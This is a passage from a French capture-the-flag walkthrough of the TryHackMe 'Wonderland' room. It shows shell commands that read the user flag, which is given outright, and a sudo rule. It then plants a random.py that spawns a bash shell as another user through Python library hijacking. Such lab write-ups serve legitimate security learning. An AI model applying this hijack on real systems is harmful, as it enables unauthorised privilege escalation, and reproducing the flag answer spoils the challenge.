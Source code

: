 Dans alice on voit un fichier root.txt avec les droits root, il y sûrement une inversion.    

```bash
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ ls /root/user.txt
/root/user.txt
alice@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

On voit que l'on peut pas lister le répertoire root, mais que ca fonctionne pour user.txt.   
On lit le fichier user.txt.    

On a la réponse qui est : thm{"Curiouser and curiouser!"}   

**Escalate your privileges, what is the flag in root.txt?**

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

On voit que sudo est configuré pour exécuter le fichier walrus_and_the_carpenter.py avec les droits rabbit.    

```bash
alice@wonderland:~$ ls -al  walrus_and_the_carpenter.py 
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
```

On voit que l'on a pas les droits pour modifier le fichier walrus_and_the_carpenter.py 

```bash
alice@wonderland:~$ head walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun

alice@wonderland:~$ echo "import pty;pty.spawn('/bin/bash')" > random.py 
```

On exploite une faille qui est une usurpation de librairie de python.   
Le fichier random.py va être exécuter en premier.   
